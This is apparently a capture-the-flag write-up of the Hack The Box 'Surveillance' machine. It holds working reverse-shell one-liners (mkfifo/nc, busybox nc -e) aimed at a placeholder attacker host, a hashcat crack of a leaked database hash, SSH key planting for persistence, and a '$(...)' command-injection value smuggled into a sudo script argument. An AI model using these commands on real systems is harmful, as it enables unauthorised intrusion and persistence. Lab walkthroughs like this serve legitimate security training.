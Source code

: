 # Surveillance

## Introduction <a href="#introduction" id="introduction"></a>

This writeup details the exploitation process of the "Surveillance" box on Hack The Box. The challenge is categorized as Medium difficulty and involves several stages.

<figure><img src="../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

## Enumeration

### Nmap

```bash
nmap -A -Pn 10.10.11.253
```

<figure><img src="../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

### Adding Domain to Hosts File

```bash
echo "10.10.11.245 surveillance.htb" | sudo tee -a /etc/hosts
```

<figure><img src="../.gitbook/assets/image (58).png" alt=""><figcaption><p><a href="http://surveillance.htb/">http://surveillance.htb/</a></p></figcaption></figure>

After explore the website, I found that **Powered by Craft CMS** that make me find the vulnerability. Bingo! I found it [https://github.com/Faelian/CraftCMS\_CVE-2023-41892](https://github.com/Faelian/CraftCMS\_CVE-2023-41892)

## Exploitation

```bash
python3 craft-cms.py http://surveillance.htb/
```

<figure><img src="../.gitbook/assets/image (59).png" alt=""><figcaption><p>Web Shell</p></figcaption></figure>

Now, we got web shell. Let go reverse shell.

```bash
#Reverse Shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <YOUR_IP> <YOUR_PORT> >/tmp/f
```

<figure><img src="../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

Let explore this, I Found **surveillance--2023-10-17-202801--v4.4.14.sql.zip** it might be useful. Let download it.

<figure><img src="../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

After read it, we found the username and hash password of Database.

<figure><img src="../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

### Crack the password

```bash
echo "39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec" >> hash_2.txt
```

```bash
hashcat -m 1400 hash_2.txt /usr/share/wordlists/rockyou.txt
```

* \-m 1400 (SHA-256 hashes)
* hash\_2.txt (hashed password)
* /usr/share/wordlists/rockyou.txt (wordlist)

<figure><img src="../.gitbook/assets/image (66).png" alt=""><figcaption><p>starcraft122490</p></figcaption></figure>

### Connect with SSH

```bash
ssh matthew@10.10.11.245
```

### User Flag

<figure><img src="../.gitbook/assets/image (68).png" alt=""><figcaption><p>1caf62cf720fba935d79236e8bd7b873</p></figcaption></figure>

## Privilege Escalation

### Create LinPEAS.sh

```bash
#Your localmachines
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > test.sh

chmod +x test.sh

scp test.sh matthew@IP:/home/matthew
```

### Run LinPEAS.sh

```bash
./test.sh
```

<figure><img src="../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

### Portforward using SSH

```bash
ssh -L 2222:127.0.0.1:8080 matthew@10.10.11.245
```

<figure><img src="../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

After see the ZoneMinder login pages, I find the vulnerability and got this one [https://github.com/rvizx/CVE-2023-26035](https://github.com/rvizx/CVE-2023-26035)

### Exploitation

```bash
python3 exploit.py -t <target_url> -ip <attacker-ip> -p <port>
```

<figure><img src="../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

### Create own SSH

```bash
#Your localmachines
ssh-keygen -t rsa -b 4096 -C "your_email@example.com" 

#Victims
mkdir -p ~/.ssh
chmod 700 ~/.ssh
touch ~/.ssh/authorized_keys

#Your localmachines
cat ~/.ssh/id_rsa.pub

#Victims
echo 'your_public_ssh_key' >> ~/.ssh/authorized_keys

#Your localmachines
ssh username@victim_server_ip
```

<figure><img src="../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

### Check sudo -l

```bash
sudo -l
ls /usr/bin/zm*.pl
```

<figure><img src="../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

And I read the **zmupdate.pl** that I see this find can run the command injection.

```bash
nano /tmp/test.sh
```

```bash
#Reverse Shell
#!/bin/bash
busybox nc <YOUR_IP> <YPUR_PORT> -e sh
```

```bash
chmod +x test.sh
```

### Run Scripts

```bash
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/test.sh)' --pass=ZoneMinderPassword2023
#Password of the Database from LinPEAS.sh
```

### Root Flag

<figure><img src="../.gitbook/assets/image (76).png" alt=""><figcaption><p>325b3e5a72f2f53f1c95915464c2bf6f</p></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
